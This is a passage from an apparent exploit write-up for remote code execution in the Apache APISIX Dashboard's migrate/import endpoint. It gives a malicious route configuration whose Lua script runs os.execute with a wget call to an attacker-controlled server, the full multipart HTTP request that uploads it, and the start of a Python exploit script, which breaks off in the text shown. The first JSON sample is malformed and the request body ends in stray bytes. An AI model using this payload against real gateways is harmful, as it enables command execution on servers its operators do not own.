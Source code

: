 ![](/assets/images/cc29035b024f7a8d1bb2ed6271cb62f0)

It contains an array of routes, each with an `ID`, `URIs`, `methods`, and a `Lua` script. Additionally, there is an array of `upstreams`, each with a `name`, `type`, `scheme`, `nodes`, and `timeout`. Also arrays for `consumers`, `services`, SSLs, `global plugins`, and `plugin configs`. Now, Let's get our malicious configration ready:

```
{"Counsumers":[],"Routes":[{"id":"387796883096994503","create_time":1640674554,"update_time":1640677637,"uris":["/rce"],"name":"rce","methods":["GET","POST","PUT","DELETE","PATCH","HEAD","OPTIONS","CONNECT","TRACE"],"script":"os.execute('wget http://172.16.69.246:8000/Pwn3d')","script_id":"387796883096994503","upstream_id":"387796832866009799","status":1}],"Services":[],"SSLs":[],"Upstreams":[{"id":"387796832866009799","create_time":1640674524,"update_time":1640674524,"nodes":[{"host":"localhost","1337":,"weight":1}],"timeout":{"connect":6,"read":6,"send":6},"type":"roundrobin","scheme":"http","pass_host":"pass","name":"testUpstream"}],"GlobalPlugins":[],"PluginConfigs":[]}
```

Basically, Here we set a route named `/rce` and it accepts all `HTTP` methods & Then, Under the `script` key we put the `lua` script as a command system to be executed, In this case it's gonna request our the `Pwn3d` endpoint from our http server.

Normal Request:

```
POST /apisix/admin/migrate/import HTTP/1.1
Host: 172.16.69.246:9000
User-Agent: UserAgents
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 995
Content-Type: multipart/form-data; boundary=d63fe4d72d026b3884925933bababb59

--d63fe4d72d026b3884925933bababb59
Content-Disposition: form-data; name="mode"

overwrite
--d63fe4d72d026b3884925933bababb59
Content-Disposition: form-data; name="file"; filename="test"

{"Counsumers": [], "Routes": [{"id": "387796883096994503", "create_time": 1640674554, "update_time": 1640677637, "uris": ["/rce"], "name": "rce", "methods": ["GET", "POST", "PUT", "DELETE", "PATCH", "HEAD", "OPTIONS", "CONNECT", "TRACE"], "script": "os.execute('wget http://172.16.69.246:8000/Pwn3d')", "script_id": "387796883096994503", "upstream_id": "387796832866009799", "status": 1}], "Services": [], "SSLs": [], "Upstreams": [{"id": "387796832866009799", "create_time": 1640674524, "update_time": 1640674524, "nodes": [{"host": "10.18.134.63", "port": 58344, "weight": 1}], "timeout": {"connect": 6, "read": 6, "send": 6}, "type": "roundrobin", "scheme": "http", "pass_host": "pass", "name": "testUpstream"}], "GlobalPlugins": [], "PluginConfigs": []}6ó
--d63fe4d72d026b3884925933bababb59--
```

Here is our python code to send the request:

```
import requests
import json
import zlib

url = "http://172.16.69.246:9000"
gateway_url = "http://172.16.69.246:9080"
cmd = "wget http://172.16.69.246:8000/Pwn3d"

def exploit(url, gateway_url, cmd):
    payload, err = gen(cmd)
    if err is not None:
        print(err)
        return
```